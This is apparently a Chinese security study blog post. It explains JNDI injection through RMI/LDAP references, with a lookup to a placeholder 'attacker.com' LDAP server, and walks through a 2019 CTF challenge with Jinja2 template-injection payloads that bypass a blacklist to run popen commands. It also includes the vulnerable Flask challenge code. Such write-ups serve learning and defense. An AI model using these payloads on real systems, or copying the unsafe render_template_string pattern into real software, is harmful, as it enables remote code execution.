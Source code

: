## 0x01 JNDI RCE

我居然敢看JNDI等Java相关的漏洞了    
RMI感觉就类似于RPC，一般一个Stub，一个IDL，一个Impl。RMI的服务端bind一个方法，客户端去lookup调用，服务端返回序列化的结果  
RMI中还有一个概念叫：动态加载字节码，如果远程RMI服务上的对象为Reference类或者其子类，则客户端获取到远程对象Stub实例时，可以从其他服务器上加载class文件来进行实例化。意思就是直接返回class给客户端，让其自己实例化执行。  
代码就是这个样子的： 

```java
Reference refObj = new Reference("refClassName", "insClassName", "http://example.com:12345/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

那么问题就来了，如果，Reference的第三个参数可以被控制，那么客户端去请求恶意代码的服务器后，实例化恶意的class，嘿嘿嘿。。。

苍天有眼，客户端在调用lookup()或者search()时，可以动态转换上下文环境，意思就是不管你之前指定的什么环境，此时山高地远我的地盘听我的：`ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");`。函数lookup会贴心的使用LDAP。emmmm，是不是有种LD_PRELOAD的感觉  

嗯，起点中文网为什么被称为东厂，，，，，，因为好多太监。。。。。

Ref:

[BlackHat 2016 回顾之 JNDI 注入简单解析](https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/)

## 0x02 SSTI+Python沙箱逃逸

逃不掉的，这辈子都逃不掉的。。。

护网杯2019的easypy题目  
网上相关的Payload那么多，就是没能成功的，因为过滤了好多啊，好不容易找到一篇过滤了'_'、'[]'、'join'的，但是又过滤了'format'，然后一直想用jinja2的map来组合字符串。。。。

人家的Payload:

```python
http://49.232.103.198:57666/render?data={{%22%22|attr(request.args.param)|attr(request.args.mro)|attr(request.args.sub)()|attr(request.args.item)(77)|attr(request.args.ini)|attr(request.args.glo)}}&param=__class__&mro=__base__&sub=__subclasses__&item=__getitem__&ini=__init__&glo=__globals__

http://49.232.103.198:57666/render?data={{%22%22|attr(request.args.param)|attr(request.args.mro)|attr(request.args.sub)()|attr(request.args.item)(77)|attr(request.args.init)|attr(request.args.glo)|attr(request.args.ae)(%22popen%22)}}&param=__class__&mro=__base__&sub=__subclasses__&item=__getitem__&init=__init__&glo=__globals__&ae=__getitem__

http://49.232.103.198:57666/render?data={{%22%22|attr(request.args.param)|attr(request.args.mro)|attr(request.args.sub)()|attr(request.args.item)(77)|attr(request.args.init)|attr(request.args.glo)|attr(request.args.ae)(%22popen%22)(%22ls%22)|attr(request.args.re)()}}&param=__class__&mro=__base__&sub=__subclasses__&item=__getitem__&init=__init__&glo=__globals__&ae=__getitem__&re=read
```

这些payload的构造都很巧妙，比如'|'、'attr'，还有从url参数重获取内容，就像是HPP或者绕过waf

```python
# -*- coding:utf-8 -*-
from flask import Flask, request, render_template_string, render_template
from markdown import markdown

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST','GET'])
def convert():
    md = markdown(request.args.get('data'))
    blacklist = [ "_",
     "[",
     "]",
     "write",
     "sys",
     "os",
     "join",
     "format",
     "default",
     "last",
     "first",
     "groupby",
     "lower",
     "pprint",
     "reverse",
     "slice",
     "sort",
     "striptags",
     "ident",
     "replace",
     "truncate",
     "center",
     "forceescape",
     "urlencode",
     "escape",
     "capitalize",
     "batch",
     "d",
     "join",
     "format",
     "'"]
    for i in blacklist:
         if i in md:
             return i,400
    content = u'{}'.format(md)
    return render_template_string(content)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=20001)
```

Ref:

[2019护网杯esaypy](http://adm1n.design/2019/09/06/2019%E6%8A%A4%E7%BD%91%E6%9D%AFesaypy/)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)